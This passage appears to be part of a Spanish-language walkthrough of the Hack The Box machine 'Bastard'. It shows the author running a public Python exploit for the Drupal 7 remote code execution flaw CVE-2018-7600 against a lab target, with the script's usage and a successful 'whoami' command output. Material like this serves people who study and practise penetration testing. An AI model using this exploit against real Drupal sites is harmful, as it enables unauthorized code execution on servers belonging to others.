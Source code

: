 >Drupal es un sistema de gestión de contenidos o CMS libre

![imagen-de-prueba](/assets/img/bastard/Captura%20de%20pantalla%20(152).png)
_Image Bastard_

![imagen-de-prueba](/assets/img/bastard/Captura%20de%20pantalla%20(153).png)
_Image Bastard_

![imagen-de-prueba](/assets/img/bastard/Captura%20de%20pantalla%20(154).png)
_Image Bastard_

Si buscamos en internet ``drupal 7.54 exploit github`` encontramos un repositorio que nos dice como efectuar un ``RCE`` en versiones 7.x de drupal con un exploit programado en python, lo clonamos en la maquina ejecutamos el ``drupa7-CVE-2018-7600.py`` para ver la sintaxis.

![imagen-de-prueba](/assets/img/bastard/Captura%20de%20pantalla%20(155).png)
_Image Bastard_

````python
❯ python3 drupa7-CVE-2018-7600.py -h

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

usage: drupa7-CVE-2018-7600.py [-h] [-c COMMAND] [-f FUNCTION] [-p PROXY] target

positional arguments:
  target                            URL of target Drupal site (ex: http://target.com/)

options:
  -h, --help                        show this help message and exit
  -c COMMAND, --command COMMAND     Command to execute (default = id)
  -f FUNCTION, --function FUNCTION  Function to use as attack vector (default = passthru)
  -p PROXY, --proxy PROXY           Configure a proxy in the format http://127.0.0.1:8080/ (default = none)
`````

Inicio el exploit con la ``url`` y la flag ``-c`` para que ejecute el comando ``whoami`` dentro de la maquina victima.

````python
❯ python3 drupa7-CVE-2018-7600.py http://10.10.10.9 -c 'whoami'

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-vN5nvYlfSNh_pvv5vg6Eb2W0ukmUX3sBp31b-oJaPyk
[*] Triggering exploit to execute: whoami
nt authority\iusr
`````
